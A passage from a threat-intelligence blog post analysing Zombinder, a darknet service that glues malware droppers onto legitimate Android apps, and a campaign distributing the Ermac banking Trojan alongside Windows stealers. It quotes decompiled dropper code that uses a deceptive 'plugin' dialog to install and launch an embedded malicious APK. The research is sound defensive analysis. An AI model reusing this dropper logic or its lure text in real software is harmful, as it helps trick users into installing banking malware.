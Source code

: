 ```yaml
---
title: Zombinder: new obfuscation service used by Ermac, now distributed next to desktop stealers
url: https://www.threatfabric.com/blogs/zombinder-ermac-and-desktop-stealers.html
source: ThreatFabric
date: 2022-12-09
fetch_date: 2025-10-04T01:03:24.628967
---
```


# Zombinder: new obfuscation service used by Ermac, now distributed next to desktop stealers

[Skip to content](#main-content)

[![threatfabric-logo-light](https://www.threatfabric.com/hubfs/Threatfabric/logos/threatfabric-logo-light.svg "threatfabric-logo-light")](//www.threatfabric.com/)

[![threatfabric-logo-light](https://www.threatfabric.com/hubfs/Threatfabric/logos/threatfabric-logo-light.svg "threatfabric-logo-light")](//www.threatfabric.com/)

* OUR SOLUTIONS
  + [Mobile Threat Intelligence (MTI)](https://www.threatfabric.com/mti)
  + [Fraud Risk Suite (FRS)](https://www.threatfabric.com/frs)
* [PARTNERS](https://www.threatfabric.com/partners)
* [WEBINARS](https://www.threatfabric.com/webinars)
* [ARTICLES](https://www.threatfabric.com/blogs)
* RESOURCES
  + [DATASHEETS & REPORTS](https://www.threatfabric.com/resources)
  + [IN THE NEWS](https://www.threatfabric.com/news)
* [Contact](https://www.threatfabric.com/contact)
* [Linkedin](https://www.linkedin.com/company/threatfabric)
* [Twitter](https://twitter.com/threatfabric)
* [Jobs](https://www.threatfabric.com/jobs)
* [Privacy](https://www.threatfabric.com/privacy)
* [Intel/PGP](https://www.threatfabric.com/contact)

[Contact](https://www.threatfabric.com/contact)

Research

## Zombinder: new obfuscation service used by Ermac, now distributed next to desktop stealers

08 December 2022

![](https://www.threatfabric.com/hubfs/Threatfabric/images/cover.jpg)

### Jump to

## Targeting different platforms and introducing Zombinder

The history of the threat landscape has seen several cases of threat actors using Trojans targeting different platforms and systems. This time while analyzing the activity of the Android banking Trojan Ermac, ThreatFabric’s analysts discovered a campaign employing several Trojans, and targeting both Android and Windows users at the same time, in order to reach as much victims as possible. Besides Ermac Android banking Trojan, the campaign involved desktop malware in the form of Erbium, Aurora stealer, and Laplas “clipper”.

This campaign resulted in **thousands** of victims, having for example Erbium stealer successfully exfiltrate data from more then **1300 victims**.

In this blog we also highlight a third-party service on darknet used to bind malicious payloads to legitimate Android applications, that we dubbed **Zombinder**. It is used to bind a malicious payload to a legitimate application, in order to trick victims to install it.

## Everyone needs Wi-Fi

While investigating Ermac’s activity, our researchers spotted an interesting campaign masquerading as applications for Wi-Fi authorization. It was distributed through a fake one-page website containing only two buttons.

![website](https://www.threatfabric.com/hs-fs/hubfs/Threatfabric/images/website.png?width=1920&height=1080&name=website.png)

As you might have already guessed, the “Download for Android” button leads to downloading samples of Ermac. We classify this variant as Ermac.C, having the following capabilities amongst others that were previously widely reported:

* Overlay attack to steal PII
* Keylogging
* Stealing e-mails from Gmail application
* Stealing 2FA codes
* Stealing seed phrases from several cryptocurrency wallets

It is worth mentioning that original actor DukeEugene announced a new version of Ermac (“Ermac 3”) coming soon that will contain new features, but it is still in development at the time of writing this blog.

During the monitoring of abovementioned campaign, we observed several approaches and lures used by the actor. It started with Wi-Fi authorization app which in fact was Ermac with obfuscation of the malicious code. Shortly after our monitoring systems spotted **several updates** of the payload: in this stage it was masquerading as browser update. However, another detail drew our attention: some of the downloaded apps were not directly Ermac, but a “legitimate” app that, during its normal operation, installed Ermac as payload targeting multiple banking applications that can be found in the [Appendix](https://www.threatfabric.com/blogs/zombinder-ermac-and-desktop-stealers.html#ermac-targets).

Such apps disguised as **modified version** of Instagram, WiFi Auto Authenticator, Football Live Streaming, etc. The package names were also the same as for legitimate applications.

In fact, the actor used a third-party service provided on darknet to “glue”, or bind, dropper capabilities to a legitimate application. After downloading the bound application, it will act as usual unless it shows a message stating that the app needs to be updated. At this point, if accepted by the victim, the seemingly legitimate application will install this update, which is nothing else than Ermac. The whole process from installing the application to Ermac running on the device can be seen on the following picture.

![dropper](https://www.threatfabric.com/hs-fs/hubfs/Threatfabric/images/dropper.png?width=1920&height=1080&name=dropper.png)

Such process is achieved by “glueing” obfuscated malicious payload to a legitimate app with minor updates made to original source code to include installation and loading of the malicious payload. We called this dropper “Zombinder”, as it takes the original application and binds malicious code to it, making it a “zombie” that installs the desired payload. The following snippet provides an example of added code to install and launch the payload.

```
AlertDialog.Builder alertDialog$Builder0 = new AlertDialog.Builder(this);
alertDialog$Builder0.setMessage("This app requires the plugin app to be installed. Please, confirm the installation by the following steps: press Settings -> enable the toggle button -> press Install");
alertDialog$Builder0.setCancelable(false);
alertDialog$Builder0.setPositiveButton("OK", () - > {
    new Handler().postDelayed(new Runnable() {
        @Override
        public void run() {
            OverlayActivity.this.isInstalled = OverlayActivity.this.isAppInstalled(OverlayActivity.this.target);
        }
    }, 3000 L);
    if (!OverlayActivity.this.isInstalled) {
        try {
            File file0 = OverlayActivity.this.getApplicationContext().getExternalFilesDir(Environment.DIRECTORY_DOCUMENTS);
            File file1 = new File(file0, "app.apk");
            StringBuilder stringBuilder0 = new StringBuilder();
            String s = File.separator;
            OverlayActivity.this.copyAssetFile(stringBuilder0.append(file0.toString()).append(s).append("app.apk").toString());
            if (file1.exists()) {
                Intent intent0 = new Intent("android.intent.action.INSTALL_PACKAGE");
                intent0.setFlags(1);
                intent0.setDataAndType(FileProvider.getUriForFile(OverlayActivity.this, "com.og.appran.pan.fileprovider", file1), "application/vnd.android.package-archive");
                OverlayActivity.this.startActivity(Intent.createChooser(intent0, ""));
            }
        } catch (IOException unused_ex) {}
        OverlayActivity.this.startService(new Intent(OverlayActivity.this, LuckyService.class));
        return;
    }
    try {
        Intent intent1 = OverlayActivity.this.getPackageManager().getLaunchIntentForPackage("com.fuyocelasisi.woyopu");
        if (intent1 != null) {
            OverlayActivity.this.startActivity(intent1);
        }
    } catch (Exception unused_ex) {}
    OverlayActivity.this.finish();
});
```

The binding service is provided by an actor well-known in the threat landscape, and is an addition to major project: an obfuscation tool that is used by multiple actors on Android criminal scene. The binding service itself was announced in March 2022 and now seems to be used frequently by different actors.

![binding](https://www.threatfabric.com/hs-fs/hubfs/Threatfabric/images/binding.png?width=1920&height=1080&name=binding.png)

We have observed several “zombie” applications used to distribute mobile malware (e.g. Ermac, Sova).

![zombinder](https://www.threatfabric.com/hs-fs/hubfs/Threatfabric/images/zombinder.png?width=1920&height=1080&name=zombinder.png)

The latest campai...